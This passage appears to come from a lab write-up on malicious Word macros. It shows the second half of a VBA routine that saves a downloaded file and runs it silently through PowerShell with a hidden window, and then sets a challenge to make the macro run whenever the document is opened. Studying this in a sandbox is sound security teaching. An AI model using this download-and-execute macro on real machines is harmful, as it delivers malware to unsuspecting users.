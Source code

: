 \begin{lstlisting}[firstnumber=20]
            ' Create the stream object to write the content to a file
            Set stream = CreateObject("ADODB.Stream")
            stream.Open
            stream.Type = 1 'Binary
            stream.Write httpRequest.ResponseBody
            stream.Position = 0
            
            ' Save the file
            stream.SaveToFile filePath, 2 '2 = overwrite if file already exists
            stream.Close
            Set stream = Nothing

        Else
            MsgBox "Failed to download the file. Status: " & httpRequest.Status
        End If

        Set httpRequest = Nothing



        Dim wsh As Object
        Set wsh = VBA.CreateObject("WScript.Shell")

        Dim shellInterpreter As String
        Dim scriptPath As String

        ' Construct the command to execute
        Dim command As String
        command = "powershell.exe -nologo -command .\Not_A_Virus.sh"

        ' Run the command
        wsh.Run command, 0, True  ' The window style 1 means the window is activated and displayed normally, True waits for the command to complete

        Set wsh = Nothing
    End Sub
\end{lstlisting}


\section{Challenge 3}

\textit{\textbf{Task:} Create a Word document and add a VBS script as a Macro. Try to execute it in a Virtual Environment.}

Now, we have to make the Word document execute our macro whenever it is opened. We have to follow these steps:

